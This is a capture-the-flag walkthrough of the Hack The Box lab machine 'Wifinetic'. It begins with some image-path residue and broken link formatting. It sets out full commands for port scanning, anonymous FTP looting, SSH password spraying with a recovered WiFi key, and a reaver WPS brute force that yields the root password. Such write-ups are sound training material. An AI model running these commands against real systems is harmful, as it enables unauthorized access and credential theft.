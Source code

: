 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

## 🧭 Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.247
nmap -p 21,22,53 -sCV 10.10.11.247
nmap -sU --top 10 10.10.11.247
```

---

## 📁 [FTP](FTP) Enumeration

### Anonymous Login
```bash
ftp 10.10.11.247
# Use username: anonymous
```

### Download Files
```ftp
prompt off
mget *
```

---

## 🔍 File Review

- **backup-OpenWrt-2023-07-26.tar** → Extract and review WiFi config for WPA key:
```bash
tar xf backup-OpenWrt-2023-07-26.tar
cat etc/config/wireless
```

Look for lines like:
```
option key 'VeRyUniUqWiFIPasswrd1!'
```

---

## 📡 [DNS](DNS) Recon (TCP/UDP 53)

### Add Hosts Entry
```bash
echo "10.10.11.247 wifinetic.htb" | sudo tee -a /etc/hosts
```

---

## 👤 Shell as `netadmin`

### Bruteforce SSH Login with Known Password
Create user file `users` with contents from `/etc/passwd`:
```bash
crackmapexec ssh 10.10.11.247 -u users -p 'VeRyUniUqWiFIPasswrd1!' --continue-on-success
```

### SSH In
```bash
sshpass -p 'VeRyUniUqWiFIPasswrd1!' ssh netadmin@10.10.11.247
```

---

## 🔍 Internal Enumeration

### Wireless Interfaces
```bash
ifconfig
iw dev
```

### Wireless Config (permissions restricted)
```bash
cat /etc/wpa_supplicant.conf
```

### SetUID & Capabilities
```bash
find / -perm -4000 -or -perm -2000 2>/dev/null
getcap -r / 2>/dev/null
```

Look for:
```
/usr/bin/reaver = cap_net_raw+ep
```

---

## 📶 WPA Brute Force – Reaver

### Target Details
- **Monitor Interface**: `mon0`
- **Target BSSID (AP MAC)**: `02:00:00:00:00:00`
- **Channel**: 1
- **SSID**: `OpenWrt`

### Run Reaver
```bash
reaver -i mon0 -b 02:00:00:00:00:00 -vv
```

Expect:
```
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
```

---

## 👑 Root Access

### Become Root via `su`
```bash
su -
# Password: WhatIsRealAnDWhAtIsNot51121!
```

### Or [SSH](SSH) as Root
```bash
sshpass -p 'WhatIsRealAnDWhAtIsNot51121!' ssh root@10.10.11.247
```

---

## 🔬 Beyond Root – Wash Analysis

### Why `wash -i mon0` hangs:
- `mon0` is monitor-mode and can **sniff** but not transmit.
- `wash` relies on **sending a probe** + sniffing response.
- Use `wlan2` instead for sending:
```bash
wash -i wlan2
```

### Both interfaces receive response:
- Running `wash -i wlan2` allows `wash -i mon0` to print results too (shared PHY).
